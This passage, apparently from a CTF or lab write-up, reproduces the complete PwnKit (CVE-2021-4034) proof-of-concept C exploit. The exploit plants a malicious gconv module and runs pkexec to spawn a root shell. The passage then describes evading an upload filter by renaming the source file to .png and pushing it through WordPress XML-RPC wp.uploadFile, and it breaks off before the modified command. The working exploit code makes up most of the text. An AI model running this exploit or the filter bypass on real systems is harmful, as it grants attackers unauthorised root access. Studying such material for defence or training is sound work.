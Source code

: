 Here's the detail of PoC for this vulnerability:
https://github.com/arthepsy/CVE-2021-4034/tree/main

And PoC code for this;

```cpp
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

Since the traffic is blocked, we cannot use python web server to upload the file.
Let's use XMLRPC's procedure call which might be useful for file upload...

Here's the document for `wp.uploadFile` method:
https://python-wordpress-xmlrpc.readthedocs.io/en/latest/examples/media.html

I'll skip the procedure, but I was blocked when I tried to upload `c` file. So I changed the extension to `png` (Image file)

Also, since we don't have an interactive shell now, we have to slightly change to code.
Originally, it contains `/bin/bash` to spawn a shell as `root`.
But since we cannot access to the shell, I replace the command to the following;
